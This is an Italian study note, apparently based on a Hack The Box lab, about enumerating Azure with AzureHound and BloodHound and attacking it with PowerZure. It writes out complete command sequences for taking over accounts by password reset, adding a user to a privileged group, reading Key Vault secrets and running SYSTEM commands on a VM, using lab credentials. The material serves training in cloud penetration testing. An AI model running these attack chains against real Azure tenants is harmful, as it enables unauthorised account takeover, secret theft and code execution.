# AzureHound
Lo stesso approccio usato per Active Directory si applica ad Azure, ma con nodi ed edge che iniziano con il prefisso AZ.

## Nodi Azure



## Edge Azure
### Gestione membri e ownership


### Ruoli privilegiati


### Esecuzione e accesso


### Accesso a segreti


### Altri


## Differenze rispetto ad Active Directory


> Non tutti gli edge Azure sono documentati e il cloud cambia rapidamente. È fondamentale tenersi aggiornati con la documentazione ufficiale di BloodHound per Azure, perché nuovi edge e attack path vengono aggiunti regolarmente.

## Cos'è AzureHound
È il collector per Azure, equivalente a SharpHound per AD. Scritto in Go quindi:

- Gira su qualsiasi OS (Windows, Linux, Mac)
- Nessuna dipendenza esterna
- Raccoglie dati tramite MS Graph API e Azure REST API

### Metodi di autenticazione


### Esecuzione base
```
.\azurehound.exe `
  -u "Isabella.Miller@tenant.onmicrosoft.com" `
  -p "HacktheboxAcademy01!" `
  list `
  --tenant "tenant.onmicrosoft.com" `
  -o all.json
```

> Output: un singolo file all.json con tutti i dati raccolti, a differenza di SharpHound che produce file JSON separati per tipo.

### Cosa raccoglie
Dal log dell'output si può vedere che enumera:
```
gruppi, utenti, app, service principals
subscription, resource groups, virtual machines
key vaults, devices, role assignments
management groups, tenants, ruoli
```


### Import in BloodHound
Stesso metodo di SharpHound: trascini il file `all.json` direttamente nella finestra di BloodHound.

### Analisi — differenza importante rispetto ad AD
Per Azure non esistono pre-built queries. Devi usare:
```
Cerca Isabella → Node Info → Outbound Object Control → Transitive Object Control
```
Questo ti mostra tutto quello che Isabella può controllare, direttamente o transitivamente.

### Limite critico di Azure
In Azure gli utenti non possono leggere tutti gli oggetti per default, a differenza di AD dove qualsiasi utente autenticato può interrogare tutto.

Esempio pratico:
```
Cerchi "AZSubscription:" in BloodHound → nessun risultato
Cerchi "AZVM:" in BloodHound → nessun risultato

Motivo: Isabella non ha i permessi di lettura
su questi oggetti → AzureHound non li ha enumerati
```

Questo significa che il grafo Azure potrebbe essere incompleto a seconda dei permessi dell'utente con cui hai eseguito AzureHound. Più privilegi ha l'account usato, più completo sarà il grafo.

# Azure Attacks con PowerZure

## Cos'è PowerZure
È l'equivalente di PowerView ma per Azure, un framework PowerShell per enumerare e attaccare ambienti Azure. Come PowerView, semplifica operazioni offensive ma alcune funzionalità potrebbero non essere aggiornate.

### Setup iniziale
```
powershell# 1. Connetti a Azure
$password = ConvertTo-SecureString "HacktheboxAcademy01!" -AsPlainText -Force
$IsabellaCreds = New-Object System.Management.Automation.PSCredential "Isabella.Miller@tenant.onmicrosoft.com", $password
Connect-AzAccount -Credential $IsabellaCreds

# 2. Importa PowerZure
Import-Module .\PowerZure.psd1
```

### Esempio di Attacco
#### Attacco 1 – Subscription Reader (più visibilità)




- Charlotte possiede il gruppo Subscription Reader → aggiungendosi al gruppo ottieni accesso in lettura alla subscription → AzureHound raccoglie più dati.
- Isabella (il cui account è stato già compromesso) può resettare la password di Charlotte.

```
# Come Isabella: reset password Charlotte
Set-AzureADUserPassword -Username Charlotte.Moore@tenant.onmicrosoft.com -Password HacktheboxPwnCloud01

# Connetti come Charlotte
Connect-AzAccount -Credential $CharlotteCreds

# Charlotte aggiunge se stessa al gruppo (AZOwns → può modificare il gruppo)
Add-AzureADGroupMember -Group "Subscription Reader" -Username Charlotte.Moore@tenant.onmicrosoft.com

# Verifica
Get-AzureADGroupMember -Group "Subscription Reader"
```

Da qui si esegue di nuovo AzureHound come Charlotte:
```
PS C:\Tools> .\azurehound.exe -u "Charlotte.Moore@plaintexthacktheboxgmail.onmicrosoft.com" -p "HacktheboxPwnCloud01" list --tenant "plaintexthacktheboxgmail.onmicrosoft.com" -o all-charlote.json
```

#### Attacco 2 – Leggere un Key Vault
##### Cos'è un Key Vault
Servizio Azure per conservare in modo sicuro segreti, chiavi e certificati (API keys, password, certificati TLS...).



Path:
```
Isabella ──AZResetPassword──► Ava Taylor ──AZContributor──► Key Vault
```

```
# Come Isabella: reset password Ava
Set-AzureADUserPassword -Username Ava.Taylor@tenant.onmicrosoft.com -Password HacktheboxPwnCloud01

# Connetti come Ava
Connect-AzAccount -Credential $AvaCreds

# Trova i segreti nel Key Vault
Get-AzKeyVaultSecret -VaultName HTB-SECRETPLAINTEXT96519
# Output: il segreto si chiama "HTBKeyVault"

# Leggi il segreto (è una SecureString, va convertita)
$secret = Get-AzKeyVaultSecret -VaultName HTB-SECRETPLAINTEXT96519 -Name HTBKeyVault
[System.Net.NetworkCredential]::new('', $secret.SecretValue).Password
# Output: ImHack1nGTooM4ch!
```


#### Attacco 3 – Eseguire comandi su Azure VM


Path:
```
Isabella ──AZResetPassword──► Madison Johnson ──AZOwns──► AZVM-01
```

```
# Come Isabella: reset password Madison
Set-AzureADUserPassword -Username Madison.Johnson@tenant.onmicrosoft.com -Password HacktheboxPwnCloud01

# Connetti come Madison
Connect-AzAccount -Credential $MadisonCreds
```

##### Esecuzione comandi – metodo PowerZure (semplice)
```
Invoke-AzureRunCommand -VMName "AZVM-01" -Command "whoami"
# Output: nt authority\system
```

##### Esecuzione comandi – metodo Az module (più dettagliato)
```
Invoke-AzVMRunCommand `
  -ResourceGroupName "PRODUCTION" `
  -CommandId "RunPowerShellScript" `
  -VMName "AZVM-01" `
  -ScriptString "whoami"
# Output: nt authority\system
```


#### Pattern comune di tutti gli attacchi
```
1. BloodHound identifica il path
2. Isabella usa AZResetPassword sull'utente intermedio
3. Ci si connette con le credenziali del nuovo utente
4. Si abusa del suo privilegio (AZOwns/AZContributor)
```
È lo stesso identico pattern di AD:
```
AD:    ForceChangePassword → nuove creds → abusa edge successivo
Azure: AZResetPassword    → nuove creds → abusa edge successivo
```

Confronto PowerZure vs Az Module
